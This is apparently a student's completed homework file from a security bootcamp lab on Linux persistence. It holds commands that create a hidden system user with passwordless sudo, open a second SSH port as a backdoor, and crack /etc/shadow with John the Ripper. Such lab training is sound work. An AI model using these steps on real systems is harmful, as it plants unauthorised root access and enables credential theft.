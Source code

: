 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

	- useradd -r -u 70 sysd
	# This will create a system accound (-r) with the uid of 70 (-u) and the account name sysd

2. Give your secret user a password: 
	
	- passwd sysd

3. Give your secret user a system UID < 1000:
	
	- usermod -u 70 sysd 
	# Not necessary in this instance since this was set during account creation
	
4. Give your secret user the same GID:
	
	- usermod -g 70 sysd
	# Also not necessary in this instance since the -r flag with useradd creates a group with the same gid as the new account's uid

5. Give your secret user full `sudo` access without the need for a password:
	
	- visudo
	# Append this to the sudoers file via the visudo command
	sysd	ALL=(ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:

    ```bash
    sudo -l
    sudo su
    sudo visudo
    sudo vipw
    sudo vigr
    sudo vipw -s
    sudo vigr -s
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    sudo vim /etc/ssh/sshd_config
    # append this line below Port 22
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
	
	- sudo systemctl restart ssh

2. Exit the `root` account:
	
	- exit

3. SSH to the target machine using your `sysd` account and port `2222`:
	
	- ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
	
	- sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

	- ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

	- sudo su
	john /etc/shadow
	# This will be much slower than a targeted dictionary attack which could be performed with the --wordlist='/path/to/wordlist/' option
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

